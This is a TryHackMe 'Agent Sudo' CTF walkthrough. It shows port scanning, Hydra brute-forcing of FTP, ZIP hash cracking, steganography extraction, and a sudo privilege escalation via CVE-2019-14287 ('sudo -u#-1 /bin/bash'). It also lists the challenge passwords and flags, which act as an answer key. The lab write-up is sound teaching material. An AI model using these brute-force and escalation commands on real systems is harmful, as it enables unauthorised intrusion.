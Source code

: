 ```yaml
---
title: "TryHackMe - Agent Sudo CTF Walkthrough"
date: 2024-12-25
categories: [TryHackMe]
tags: [CTF, FTP, Steganography, Privilege Escalation]
image: assets/images/agent-sudo-cover.jpg
---
```


# TryHackMe - Agent Sudo CTF Walkthrough

---

## Step 1: Network Scanning

Use Nmap to scan the target and identify open ports and services.

```bash
sleep33@THM:~$ nmap -v -sCV -oN nmap.txt 10.10.89.193
```

### Results:
- **Open Ports**:
  - Port 21: FTP (vsftpd 3.0.3)
  - Port 22: SSH (OpenSSH 7.6p1)
  - Port 80: HTTP (Apache 2.4.29)
- **Interesting HTTP Title**: `Announcement`
- **Total Open Ports**: `3`

---

## Step 2: Directory Enumeration

Enumerate directories using Gobuster.

```bash
sleep33@THM:~$ gobuster dir -u http://10.10.89.193 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,js,txt,php,db,json,log,bak,old
```

### Results:
- `/index.php` (Status: 200)
- `.html` and `.php` (Status: 403)
- Secret page accessible via modifying the `User-Agent` header.

---

## Step 3: Investigating FTP Service

Attempt to brute-force FTP credentials using Hydra.

```bash
sleep33@THM:~$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.89.193 ftp
```

### Credentials Found:
- **Username:** `chris`
- **Password:** `crystal`

---

## Step 4: Exploring FTP

Log in to the FTP server and list its contents.

```bash
ftp> ls -la
```

### Files Found:
- `To_agentJ.txt`
- `cute-alien.jpg`
- `cutie.png`

Download the files for further analysis.

---

## Step 5: Analyzing `cutie.png`

Use Binwalk to inspect the file for hidden data.

```bash
sleep33@THM:~$ binwalk cutie.png
```

### Findings:
- Encrypted ZIP archive located at offset `0x8702`.

Extract the ZIP file.

```bash
sleep33@THM:~$ binwalk cutie.png -e
```

---

## Step 6: Cracking the ZIP File

Use `zip2john` to extract the hash and `john` to crack the password.

```bash
sleep33@THM:~$ zip2john 8702.zip > zip_hash.txt
sleep33@THM:~$ john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

### Password Found:
- **Password:** `alien`

Extract the contents of the ZIP file. Inside, you find a message: `QXJlYTUx` which decodes to `Area51`.

---

## Step 7: Analyzing `cute-alien.jpg`

Use Steghide to extract hidden data from the image.

```bash
sleep33@THM:~$ steghide extract -sf cute-alien.jpg
```

### Results:
- **Passphrase:** `Area51`
- **Extracted File:** `message.txt`

Contents of `message.txt`:
```
Hi James,

Glad you find this message. Your login password is hackerrules!

Your buddy,
Chris
```

---

## Step 8: SSH Access

Log in via SSH using the provided credentials.

```bash
sleep33@THM:~$ ssh james@10.10.89.193
```

### Credentials:
- **Username:** `james`
- **Password:** `hackerrules`

Once logged in, locate the `user_flag.txt`.

```bash
james@agent-sudo:~$ cat user_flag.txt
```

**User Flag:**
```
b03d975e8c92a7c04146cfa7a5a313c7
```

---

## Step 9: Privilege Escalation

Check `sudo` permissions.

```bash
james@agent-sudo:~$ sudo -l
```

### Results:
- `(ALL, !root) /bin/bash`

Exploit the misconfigured `sudo` permissions to gain root access.

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
# whoami
root
```

Escalation exploit: **CVE-2019-14287**

---

## Step 10: Retrieving the Root Flag

Locate and read the `root_flag.txt`.

```bash
root@agent-sudo:~$ cat /root/root_flag.txt
```

**Root Flag:**
```
b53a02f55b57d4439e3341834d70c062
```

---

## Step 11: Identifying Agent R

Agent R is referenced multiple times throughout the challenge. Their identity is clarified in `message.txt`.

**Agent R:** `Roswell alien autopsy`

---

## Summary

In this walkthrough, we enumerated services, brute-forced FTP credentials, used steganography to uncover hidden messages, escalated privileges using misconfigured `sudo` permissions, and retrieved both the user and root flags.

### Key Information:
- **FTP Password:** `crystal`
- **ZIP Password:** `alien`
- **Steg Password:** `Area51`
- **SSH Password:** `hackerrules`
- **Agent Name:** `Chris`
- **Other Agent Full Name:** `James`
- **Incident:** `Roswell alien autopsy`
- **User Flag:** `b03d975e8c92a7c04146cfa7a5a313c7`
- **Root Flag:** `b53a02f55b57d4439e3341834d70c062`

